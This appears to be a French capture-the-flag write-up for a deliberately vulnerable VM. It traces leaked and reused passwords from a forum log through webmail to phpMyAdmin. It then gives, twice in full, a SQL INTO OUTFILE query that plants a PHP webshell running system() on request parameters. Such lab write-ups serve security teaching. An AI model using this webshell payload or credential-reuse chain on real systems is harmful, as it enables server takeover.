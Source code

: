 On peut constater 3 pages principales :

- forum
- webmail
- phpmyadmin

L'accès aux pages `webmail` et `phpmyadmin` est verouillé par un mot de passe, nous allons donc chercher des indices sur le forum.

Un des utilisateurs , `lmezard`, semble avoir des problèmes de connection et à partagé un fichier de log d'erreur. Dans ce fichier, il y a un endroit où on se rend compte qu'il a tapé ce qui ressemble à un mot de passe dans un champ username.

```
...
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
...
```

On essaye donc de se connecter au forum avec les identifiants `lmezard:!q\]Ej?*5K5cy*AJ`, ça marche !

Ensuite on va dans son profil où l'on trouve son adresse mail `laurie@borntosec.net`, et comme cette personne n'a pas utilisé de mot de passe différent, on peut se connecter au client mail,

Client mail où l'un des mails a pour objet `DB Access` et contient le mot de passe `root` de `phpmyadmin` :

`root/Fg-'kKXBj87E:aJ$`

## Exploit phpmyadmin

[Linux Hacking Case Studies Part 3: phpMyAdmin](https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-3-phpmyadmin/)

Grâce à ce site, nous avons une potentielle porte d'entrée dans la VM via la création d'un `webshell` par le moyen d'une requête `SQL`.

La requête est la suivante :

```sql
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/phpMyAdmin/cmd.php'
```

Le webshell sera donc théoriquement accessible à l'adresse `https://IP/phpMyAdmin/cmd.php`. Malheureusement nous n'avons pas les droits requis pour écrire à cette adresse.

Nous reprenons la sortie de `dirb` et tentons d'écrire dans tous les dossier jusqu'à en trouver un qui fonctionne : `forum/templates_c/cmd.php`.

La requête `SQL` est maintenant :

```sql
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/forum/templates_c/cmd.php'
```
